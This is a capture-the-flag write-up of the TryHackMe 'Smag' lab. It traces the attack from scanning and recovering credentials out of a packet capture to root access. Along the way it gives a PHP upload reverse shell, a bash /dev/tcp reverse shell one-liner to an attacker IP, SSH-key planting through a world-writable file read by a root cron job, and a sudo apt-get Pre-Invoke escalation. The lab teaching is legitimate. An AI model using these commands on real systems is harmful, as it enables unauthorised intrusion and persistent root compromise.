





Hello everyone! My goal is to stay consistent, tackle more challenges, and keep learning. I am grateful to have you along for the ride. Now, let's dive in and solve this room!

Room Link: [tryhackme.com/room/smaggrotto](https://tryhackme.com/room/smaggrotto)

**Challenge Name:** Smag
**Difficulty:** Easy
**Category:** Web, Privilege Escalation, Cron, Sudo

## 1. Scenario

We are given a machine with only an IP address. The goal is to gain root access and retrieve both user and root flags.

## 2. Reconnaissance

First, add the target domain to `/etc/hosts`:

```bash
echo "10.48.186.220 smag.thm" | sudo tee -a /etc/hosts
```

### 2.1 NMAP

Before doing anything else, I wanted to know what was actually exposed on the box, so I started with a full TCP port scan with service and version detection:

```bash
nmap -sC -sV -p- smag.thm
```

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-17 10:33 -0400
Nmap scan report for smag.thm (10.48.186.220)
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only two ports were open: SSH on 22 and HTTP on 80. SSH wasn't going to get me anywhere without credentials, so the web server on port 80 was the obvious place to dig into next.

### 2.2 Directory Enumeration using Gobuster

The index page alone didn't give me much to work with, so I ran a directory brute force against the site to see if there was anything not linked from the homepage:

```bash
gobuster dir -u http://smag.thm -w /usr/share/wordlists/dirb/common.txt
```

```
.hta.html          (Status: 403) [Size: 273]
.htpasswd          (Status: 403) [Size: 273]
.htaccess          (Status: 403) [Size: 273]
index.php          (Status: 200) [Size: 402]
mail               (Status: 301) [Size: 303] [--> http://smag.thm/mail/]
server-status      (Status: 403) [Size: 273]
Progress: 4613 / 4613 (100.00%)
Finished
```

Interesting findings here is the "/mail". Visiting `http://smag.thm/mail/` shows a webmail interface or a file listing? The user found a pcap file there.


{: .shadow width="900" }

The following emails are being displayed using an "email2web" software. Reading through the thread:

> **Network Migration**, Due to the exponential growth of our platform, and thus the need for more systems, we need to migrate everything from our current 192.168.33.0/24 network to the 10.10.0.0/8 network. The previous engineer had done some network traces so hopefully they will give you an idea of how our systems are addressed.
>
> **Re: Network Migration**, I tried downloading the file but I found an anomaly in the attached file, could you please tell me what has happened here?
>
> **Re: Network Migration**, Hi Uzi, as the previous developer had found a bug in the email2web software that he has been unable to fix, could you please download all attachments with wget until further notice, thank you.

## 3. Finding the Subdomain

Download the pcap file and analyze it with Wireshark or tcpdump.

```bash
wget http://smag.thm/aW1wb3J0YW50/dHJhY2Uy.pcap
```


{: .shadow width="900" }

With the pcap downloaded, I opened it in Wireshark and filtered for HTTP traffic to see if anything interesting was captured. I noticed a **POST** request that looked like a login attempt, so I followed that TCP stream to see the full request.


{: .shadow width="900" }

That confirmed it: the capture contained a login submission with what looked like admin credentials. While I was going through the capture I also noticed a DNS query pointing to a subdomain I hadn't seen before:

```
development.smag.thm
```

That meant there was a second site I hadn't discovered through directory brute forcing, so I added it to `/etc/hosts`:

```bash
echo "10.48.186.220 development.smag.thm" | sudo tee -a /etc/hosts
```

Going back to the POST request I found earlier, this is the full body I was looking for, the actual credentials:

```
POST /login.php HTTP/1.1
Host: development.smag.thm
...
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cM4nG3M3_n0w
```

## 4. Exploiting the File Upload

Visit `http://development.smag.thm`. Logging in with the `helpdesk` / `cM4nG3M3_n0w` credentials from the pcap gets us into the admin area:


{: .shadow width="900" }

The page appears to be a file manager that allows file uploads. Upload a reverse shell (e.g., a PHP shell). After uploading, navigate to the uploaded file to trigger it.

Set up a netcat listener:

```bash
nc -lvnp 4444
```

Then access the shell file. A reverse shell connects as `www-data`:

```
listening on [any] 4444 ...
connect to [10.48.101.4] from (UNKNOWN) [10.48.186.220] 57128
bash: cannot set terminal process group (720): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$
```

The page has an "Enter a command" box, so the actual trigger command used was:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.48.101.4/4444 <&1'
```


{: .shadow width="900" }

## 5. Stabilizing the Shell

Use these commands after you got connected to the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo
fg
```

Now we have a proper interactive shell.

## 6. Privilege Escalation (Cron Job Abuse)

With a stable shell as `www-data`, I wanted to see if there was anything running automatically as root that I could abuse, so the first thing I checked was the system crontab:

```bash
cat /etc/crontab
```

```
# /etc/crontab: system-wide crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user command
17 * * * *   root  cd / && run-parts --report /etc/cron.hourly
25 6 * * *   root  test -x /usr/sbin/anacron || ( cd / && run-parts --report ... )
47 6 * * 7   root  test -x /usr/sbin/anacron || ( cd / && run-parts --report ... )
52 6 1 * *   root  test -x /usr/sbin/anacron || ( cd / && run-parts --report ... )
* * * * *    root  /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

One line stood out immediately: every minute, as root, the contents of `/opt/.backups/jake_id_rsa.pub.backup` get written straight into jake's `authorized_keys` file. If I could control what's inside that backup file, I could control who gets to log in as jake. So the next thing to check was whether I was actually allowed to write to it:

```bash
ls -la /opt/.backups/jake_id_rsa.pub.backup
# -rw-rw-rw- 1 root root 563 Jun  5  2020 /opt/.backups/jake_id_rsa.pub.backup

ls -ld /opt/.backups
# drwxr-xr-x 2 root root 4096 Jun  4  2020 /opt/.backups
```

That confirmed it: the backup file is world writable (`-rw-rw-rw-`). That meant I didn't need to exploit anything clever, I could just overwrite it directly with my own public key and let the cron job do the rest.

### 6.1 Generating Our Own SSH Key

First I generated a fresh SSH keypair on my attack machine, instead of reusing an existing one, so I could keep this access separate and controlled:

```bash
ssh-keygen -t rsa -b 4096 -f ~/.ssh/smag_grotto
cat ~/.ssh/smag_grotto.pub
```

Then, from the `www-data` shell, I overwrote the backup file with that public key. This is the specific file the cron job reads from, so whatever I put here is what ends up in jake's `authorized_keys` within a minute:

```bash
echo "ssh-rsa AAAAB3NzaC1yc2E... root@kali" > /opt/.backups/jake_id_rsa.pub.backup
```

After waiting up to a minute for the cron job to fire, I tried logging in as jake using the private half of the key I just planted:

```bash
ssh -i ~/.ssh/smag_grotto jake@smag.thm
```

It worked. I was now jake.

## 7. Privilege Escalation (Sudo apt-get)

Now that I was jake, the natural next step was to check what, if anything, jake was allowed to run as root:

```bash
sudo -l
```

```
User jake may run the following commands:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

Jake can run `apt-get` as root with no password. On its own that doesn't look dangerous, but `apt-get` supports a `-o` option for setting arbitrary config values, including a `Pre-Invoke` hook that runs a command before the update step itself. Since the whole thing runs as root, whatever I put in that hook also runs as root:

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

```
┌──(root㉿kali)-[~]
└─# ssh -i ~/.ssh/smag_grotto jake@10.48.186.220
...
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)
```

That dropped a root shell immediately, no exploit code needed, just a config flag.


{: .shadow width="900" }

## 8. Flags

With root, I grabbed both flags:

```
jake@smag:~$ sudo -l
User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# cat /root/root.txt
uJr6zRgetaniyHVRqqL5--------
# cat /home/jake/user.txt
iusGorV7EbmxM5AuIe2w4-------
```

## Conclusion

This machine demonstrated a realistic attack chain:

**web upload → reverse shell → cron abuse → SSH as user → sudo apt-get breakout → root.**

Lastly, the lesson here is that small misconfigurations, such as a writable backup file or a permissive sudo rule, can cascade into a full system compromise.
